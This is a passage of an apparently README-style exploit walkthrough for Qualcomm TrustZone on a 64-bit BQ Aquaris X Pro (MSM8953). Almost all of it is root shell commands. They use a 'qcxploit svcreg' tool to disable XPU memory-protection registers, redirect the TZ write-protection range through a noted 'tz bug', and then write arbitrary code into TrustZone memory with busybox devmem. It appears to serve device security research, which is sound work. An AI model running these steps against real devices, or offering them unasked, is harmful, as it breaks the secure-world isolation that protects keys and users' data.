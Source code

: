    12.5. For faults, see /d/tzdbg/log
  
  <br/>
  
  ###### 64 Bit BQ Aquaris X Pro MSM8953
   12.1. Disabling XPU
        
   - Disable HWIO_BIMC_S_DDR0_XPU_SCR_ADDR (optional, however disables tz key)
     ```
     root@bardock:/ # ./qcxploit svcreg 200020D 4 22 44a000 13f 0
     ```
        
   - Disable HWIO_BIMC_S_DDR0_XPU_CR_ADDR
     ```
     root@bardock:/ # ./qcxploit svcreg 200020D 4 22 44a080 19e 0
     ```
        
   - Disable HWIO_OCIMEM_MPU_XPU_SCR_ADDR (optional, however disables tz key)
     ```
     root@bardock:/ # ./qcxploit svcreg 200020D 4 22 53000 13f 0
     ```
        
   - Disable HWIO_OCIMEM_MPU_XPU_CR_ADDR
     ```
     root@bardock:/ # ./qcxploit svcreg 200020D 4 22 53080 11f 0
     ```
          
   - Disable write protection by changing the memory area to be protected
     not to point to the start of tz code area, but instead to point to
     the end of tz code area (writing the end addr 0x866f0000 to 
     HWIO_BIMC_S_DDR0_XPU_PRT2_START0_ADDR) <-- tz bug
     ```
     root@bardock:/ # ./qcxploit svcreg 200020D 4 22 44a340 866f0000 0
     ```
          
   12.2. Enable debug logs from tz
   ```
   root@bardock:/ # mount -t debugfs debugfs /d/
   root@bardock:/ # ls /d/tzdbg
   ```
          
   12.3. We can now upload any code using devmem directly to the tz
         (here: write code to tz for svc cmd 0x200030F)
   ```     
   root@bardock:/ # ./busybox devmem 0x865ef918
   root@bardock:/ # ./busybox devmem 0x865ef918 32 0x865630fc
   root@bardock:/ # ./busybox devmem 0x865ef918 32 0x86572214
   root@bardock:/ # ./busybox devmem 0x8657221C 32 0xD2800000
   root@bardock:/ # ./qcxploit svcreg 200030F 4 0 53000 13e 0
   ```
